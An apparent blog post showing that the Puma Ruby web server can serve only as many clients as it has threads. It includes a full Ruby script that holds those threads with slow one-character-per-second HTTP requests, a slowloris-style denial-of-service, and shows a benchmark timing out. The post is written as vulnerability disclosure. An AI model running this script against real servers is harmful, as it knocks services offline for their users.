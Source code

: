 ```yaml
---
title: Puma and the light

categories:
  - programming
  - ruby
  - lol

layout: post
---
```


Today after I finished wrapping up [barlume](https://github.com/meh/barlume) I started
thinking about the next steps.

At first I thought about writing a reactor with it and adding a compatibility layer to
make it work like [EventMachine](https://github.com/eventmachine/eventmachine) (and it
will be done), but then I thought about Puma.

[Puma](http://puma.io/) is a very awesome Ruby web server, I really like what it tries to
achieve and by reading the homepage it seems really performant.

So I started digging around the source to see where I could improve its performances and
after seeing the orror of `IO.select` usage (which isn't that bad for how they use it) I
noticed how it handled connections and requests.

{% highlight ruby %}
@thread_pool = ThreadPool.new(@min_threads, @max_threads) do |client, env|
  process_client(client, env)
end
{% endhighlight %}

When it starts it creates a `ThreadPool`, the default minimum is **0** the default maximum is **16**,
after reading more of it, specifically that `process_client` function I realized something else:
it can only handle *maximum threads* clients at a time.

What are the consequences of this sad realization? The consequences are that this simple script
makes *puma* completely unresponsive:

{% highlight ruby %}
#! /usr/bin/env ruby
# encoding: utf-8
require 'socket'
require 'barlume'
require 'optparse'

options = {}

OptionParser.new do |o|
  options[:host]    = 'localhost'
  options[:port]    = 4567
  options[:threads] = 16
  options[:content] = "GET / HTTP/1.1\r\nHost: localhost\r\n\r\n"
  options[:sleep]    = 1

  o.on '-h', '--host host', 'the host of the server' do |value|
    options[:host] = value
  end

  o.on '-p', '--port port', Integer, 'the port of the server' do |value|
    options[:port] = value
  end

  o.on '-t', '--threads [MAX_THREADS]', 'the max amount of threads on the server' do |value|
    options[:threads] = value
  end

  o.on '-c', '--content CONTENT', 'the string to send' do |value|
    options[:content] = value
  end

  o.on '-s', '--sleep SECONDS', Float, 'the time to sleep before sending every character' do |value|
    options[:sleep] = value
  end
end.parse!

class Slowpoke < Barlume::Lucciola
  def initialize (socket, message)
    super(socket)

    @message = message
    @offset  = 0
  end

  def send_next
    return if done?

    write_nonblock @message[@offset]

    @offset += 1
  rescue Errno::EAGAIN, Errno::EWOULDBLOCK
  end

  def done?
    @offset >= @message.length
  end
end

lantern = Barlume::Lanterna.best

options[:threads].times {
  lantern << Slowpoke.new(TCPSocket.new(options[:host], options[:port]), options[:content])
}

puts "oh noes, a wall on my path D:"

until lantern.descriptors.all?(&:done?)
  lantern.writable.each {|s|
    s.send_next
  }

  sleep options[:sleep]
end

puts "oh, there's a door ( ･ ◡◡･)"
{% endhighlight %}

I ran that script on a simple *sinatra* application and prepared to run `ab` to see
how it handled everything, this was the result:

{% highlight text %}
Benchmarking 127.0.0.1 (be patient)...apr_poll: The timeout specified has expired (70007)
{% endhighlight %}

It **dies**.

When the slowpokes are done everything restarts working properly.

So, what's next about all of this? I'll try to write a patch to make it use barlume
and keep it as concurrent as before.

In the meantime I'd suggest to not use it in production or at least with other external
measures to avoid that kind of attack.
